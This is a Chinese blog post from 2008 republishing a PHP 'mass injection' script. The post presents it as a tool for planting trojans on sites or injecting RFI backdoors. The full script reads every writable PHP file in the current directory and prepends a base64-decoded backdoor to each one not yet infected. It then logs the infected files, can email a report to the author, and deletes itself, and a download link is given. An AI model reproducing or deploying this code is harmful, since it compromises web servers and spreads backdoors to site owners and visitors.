 ```yaml
---
title: PHP批量挂马脚本
description: 来源：红狼作者：f3v3r批量写入档案脚本...可以拿来挂马也能拿来当RFI的后门注入code都写明的，有需要的请自己看后门写在$inj里面，要做base64encode的Polymorphic不希望这个东西被搞破坏的人拿去玩懂原理的就自个儿收下吧
date: 2008-03-04 10:16:02
category: 安全工具
tags: ['脚本Script', 'PHP', '源码']
post_id: 391
alias: PHP-piliang-guama-jiaoben
ViewNums: 11207
---
```

## [PHP](/tags/PHP)批量挂马脚本

来源：红狼
作者：f3v3r

批量写入档案脚本...
可以拿来挂马
也能拿来当RFI的后门[注入](/tags/%E6%B3%A8%E5%85%A5)
code都写明的，有需要的请自己看
[后门](/tags/%E5%90%8E%E9%97%A8)写在$inj里面，要做base64 encode的Polymorphic
不希望这个东西被搞破坏的人拿去玩
懂原理的就自个儿收下吧

<?php
set_time_limit(0);
ignore_user_abort(1);
# PHP Mass Injection Script by f3v3r ver.228
# |1| Look for PHP in directory.|2| Check injected.
# |3| Inject script. |4|Can email report to you.
$inj ='';
$log_email = 0;//change 1 enable, somehow they can trace you by this way.
$email = 'f3v3r@cc.cc';
$log_report = 1;
$filename = '__log.html';
$delete_me = 1;

echo '<title>f3v3r injection toolz</title><center><strong>Defacez aint hack, r00tz r.</strong></center><br>';
$dir = opendir('.');
$site=(isset($_SERVER["HTTP_HOST"]) ? $_SERVER["HTTP_HOST"] : $HTTP_HOST);
while ($file = readdir($dir))
{
if (strstr($file, '.php') && is_writeable($file))
{
$victim = fopen($file, 'r+');
$victim_read = fread($victim, filesize($file));
if (!strstr($victim_read, 'f3v3r'))
{
fclose($victim);
unlink($file);
$new = fopen($file, 'a+');
$new_write = fwrite($new, base64_decode($inj) . $victim_read);
fclose($new);
echo '<strong>[-] injecting : ' . $site . '</strong><br>';
echo '[x] injected: ' . $file . '<br>';
if($log_email) { $log = fopen('__tmp', 'a+'); fwrite($log, '[x] File: ' . getcwd() . $file . '<br>'); fclose($log); }
if($log_report) { $x = fopen($filename, 'a+'); fwrite($x, '[x] File: ' . getcwd() . $file . '
'); fclose($x); }
}
}
}
closedir($dir);
if($log_email) { $report = file_get_contents('__tmp'); mail($email, "injection report", '<br>f3v3r<br> ' .$report, 'From: f3v3r <f3v3r@cc.cc>'); unlink('__tmp'); echo '[x] Email Report Sent!';}
if($delete_me) { unlink(__file__); }
exit;
?>

MD5 checksum:DE734BDAC73E6ECE8DD3DB40416976E8
#f3v3r

下载：[injection.rar](/blog/download.asp?id=55 (1.52 KB)


